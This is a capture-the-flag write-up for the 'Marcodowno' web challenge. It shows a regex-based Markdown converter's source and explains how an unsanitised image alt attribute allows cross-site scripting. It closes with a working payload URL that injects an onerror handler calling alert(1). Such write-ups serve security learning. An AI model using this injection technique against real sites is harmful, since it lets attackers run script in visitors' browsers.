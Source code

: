 # Marcodowno

**Category**: Web

105 Points

158 Solves

**Problem description**:
Someone told me to use a lib, but real developers rock regex one-liners.

---

So it's XSS challenge and we basically have to XSS a page and send them a URL popping alert(1) to get the flag

Here is the source of the webpage. It's apparently a "Markdown" converter which uses regex

```html
<head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="/static/style.css" />
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
</head>

<script>
input = decodeURIComponent(location.search.match(/input=([^&#]+)/)[1]);

function markdown(text){
  text = text.replace(/[<]/g, '').replace(/----/g,'<hr>').replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>').replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>').replace(/__([^_]+)__/g, '<b>$1</b>').replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>').replace(/\* ([^*]+)/g, '<li>$1</li>').replace(/##### ([^#\n]+)/g, '<h5>$1</h5>').replace(/#### ([^#\n]+)/g, '<h4>$1</h4>').replace(/### ([^#\n]+)/g, '<h3>$1</h3>').replace(/## ([^#\n]+)/g, '<h2>$1</h2>').replace(/# ([^#\n]+)/g, '<h1>$1</h1>').replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>').replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>').replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>').replace(/`([^`]+)`/g, '<code>$1</code>').replace(/```([^`]+)```/g, '<code>$1</code>').replace(/\n/g, "<br>");
  return text;
}

window.onload=function(){
  $("#markdown").text(input);
  $("#rendered").html(markdown(input));
}

</script>

<h1>Input:</h1><br>
<pre contenteditable id="markdown" class="background-grey"></pre><br>
<br>
<button onclick='$("#rendered").html(markdown($("#markdown").text()))'>Update preview</button>
<hr>
<br>
<h1>Preview:</h1><br>
<div id="rendered" class="rendered background-grey"></div>
```

In the first replace, it removes all the open (<) HTML tags. How do we XSS without open tags? 

The replace that caught my eye was

```
replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
```
It woulb be used to transform the image tags in Markdown such as `![img1](http://url)` into `<img src="http://url" alt="img1">`. The URL is decently sanitized but alt is not. We can inject a double quote and break out of the alt tag, inject a event handler which would then pop up an XSS. 

Here was the final URL

```
http://marcodowno-01.play.midnightsunctf.se:3001/markdown?input=![" onerror="alert(1)"](http://x)
```

